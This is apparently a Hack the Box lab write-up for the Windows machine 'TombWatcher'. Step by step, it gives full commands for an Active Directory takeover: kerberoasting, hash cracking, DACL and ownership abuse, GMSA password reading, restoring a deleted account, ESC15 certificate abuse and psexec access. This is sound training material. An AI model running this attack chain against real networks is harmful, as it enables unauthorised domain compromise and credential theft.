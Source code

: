 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred

`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball

`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec

`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.

`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.

`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. Shows the cert_admin user has been deleted. Let's try to restore the account and enable it again using PowerShell

`Restore-ADObject -Identity 'f80369c8-96a2-4a7f-a56c-9c15edd7d1e3'`

16. Check cert_admin account is restored

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/6a82727a-bf1b-4bcc-9990-d8539361fcef)

17. Success! Now, change cert_admin's password using John's GenericAll privs on that account

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.78 -u john -p Password123 set password cert_admin Summer2025`

18. With cert_admin's account, we naturally enumerate for vulnerable certificate templates with certipy. Certipy returns a WebServer template that's vulnerable to ESC15

`certipy find -u cert_admin -p Summer2025 -dc-ip 10.129.47.78 -enabled -vulnerable`

![image](https://github.com/user-attachments/assets/e0ae6706-66dc-4b5b-96af-89790ca715c9)

19. Using certipy, request the WebServer template with admin's UPN and SID.

`certipy req -dc-ip 10.129.32.88 -ca tombwatcher-CA-1 -u cert_admin -p Summer2025 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500'`

20. With admin's certificate, we get a root ldap shell on the machine. With the ldap shell, add user John to Domain Admins group

`certipy auth -pfx administrator1.pfx -dc-ip 10.129.32.88 -ldap-shell`

![image](https://github.com/user-attachments/assets/5f2f263b-3bf8-41de-9375-f944d88c163e)

21. Check John is Domain Admin with netexec and then get root shell on the machine using psexec.py

`nxc smb 10.129.32.88 -u john -p Password123`

`psexec.py john:Password123@10.129.32.88`

![image](https://github.com/user-attachments/assets/3688c466-0203-457f-841d-c225bc93a605)

22. Get root flag and pwned!
![image](https://github.com/user-attachments/assets/a0bf96da-888e-4e30-a317-ba3ddc7eb813)


## Remediation Summary
- 


